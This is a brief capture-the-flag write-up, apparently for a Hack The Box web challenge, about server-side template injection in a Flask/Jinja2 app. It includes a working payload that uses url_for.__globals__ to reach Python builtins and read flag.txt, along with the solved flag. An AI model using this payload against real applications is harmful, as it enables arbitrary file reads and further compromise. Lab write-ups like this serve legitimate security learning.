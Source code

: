 ## Trial by Fire

Category: Web  

## Challenge
Website with warrior name input.  
Found 3 main parts:
- Home page (input warrior name)  
- /flamedrake (show status)  
- /battle-report (after battle action)

Checked for SSTI by inputting
```
{{7*7}}
```
Output still showed `{{7*7}}` (escaped).

Found hidden button using DevTools (CTRL + F → search "leet").  
Clue appeared:
![image](https://github.com/user-attachments/assets/0038997c-6d0a-4c46-b834-377e607e51cb)

```
{{ url_for.globals }}
```

## Solution
After analyzing source, found:
- /flamedrake uses `render_template()` → safe  
- /battle-report uses `render_template_string()` + f-string → vulnerable  

So SSTI only works in `/battle-report`.

Final Payload:
```jinja2
{{ url_for.__globals__['__builtins__']['open']('flag.txt').read() }}
```

- POST to `/begin` with warrior_name = payload
![image](https://github.com/user-attachments/assets/2cf3f09b-0c64-4b02-bec4-e5d99f277a50)

- Trigger `/battle-report`

![image](https://github.com/user-attachments/assets/bf24535a-f708-436c-964d-c8fc2d896532)

```
HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_ab21d35eb28870ad67229305ddfd57dc}
```
